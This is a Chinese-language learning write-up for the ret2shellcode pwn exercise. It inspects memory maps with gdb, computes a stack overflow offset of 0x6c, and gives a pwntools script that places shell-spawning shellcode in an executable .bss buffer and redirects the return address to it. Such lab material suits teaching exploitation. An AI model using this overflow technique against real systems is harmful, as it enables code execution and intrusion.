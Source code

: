 没有任何保护，还有可执行可读可写段。

用IDA查看它的大概逻辑，将输入的字符串 `s` 拷贝到了位于 `.bss` 段的 `buf2` 处。其地址为 `0x804A080` 。

使用 `vmmap` 指令查看该 `bss` 段是否可执行。

具体操作如下：

使用 gdb 将断点下在 `main` 处，运行，输入命令 `vmmap` ，发现有如下输出：

```bash
0x08048000 0x08049000 r-xp	/home/qrz/Desktop/pwn-study/ret2shellcode
0x08049000 0x0804a000 r-xp	/home/qrz/Desktop/pwn-study/ret2shellcode
0x0804a000 0x0804b000 rwxp	/home/qrz/Desktop/pwn-study/ret2shellcode
0xf7dfb000 0xf7dfc000 rwxp	mapped
0xf7dfc000 0xf7fac000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fac000 0xf7fae000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fae000 0xf7faf000 rwxp	/lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb2000 rwxp	mapped
0xf7fd3000 0xf7fd4000 rwxp	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rwxp	/lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rwxp	[stack]
```

发现我们要用的那一段

```bash
0x0804a000 0x0804b000 rwxp	/home/qrz/Desktop/pwn-study/ret2shellcode
```

是可以执行的。

于是我们的思路是这样的：

输入 `shellcode` ，它会被拷贝到相应的 `.bss` 段，接下来我们通过ROP的方式使得返回地址指向该段的地址就可以了。

看看这时 `main` 函数的栈帧：

`$esp` =` 0xffffcdd0` ，`$ebp` = `0xffffce58` ，`s_addr` = `0xffffcdec` 

`s` 到栈底的距离为 `0xe58-0xdec=0x6c` 。

这时就可以构造 `payload` 了。

```python
# --*--coding:utf-8--*--
from pwn import *
p = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x0804A080
payload = shellcode.ljust((0x6c+4),'a')+p32(buf2_addr)
p.sendline(payload)
p.interactive()
```
